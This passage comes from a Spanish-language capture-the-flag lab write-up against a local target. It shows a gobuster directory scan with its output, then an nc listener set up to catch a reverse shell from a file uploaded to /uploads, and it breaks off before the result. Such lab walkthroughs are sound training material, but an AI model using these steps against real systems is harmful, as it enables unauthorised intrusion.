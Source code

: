 ### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.html       (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 456]
/javascript           (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
/upload.php           (Status: 200) [Size: 0]
/upload               (Status: 200) [Size: 635]
/uploads              (Status: 200) [Size: 942]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que tendremos `2` carpetas llamadas `/uploads` y `/upload`, probemos a entrar a la primera carpeta y veremos que esta nuestro archivo, por lo que antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si ejecutaremos el archivo desde la web y si vamos a donde tenemos la escucha veremos lo siguiente:
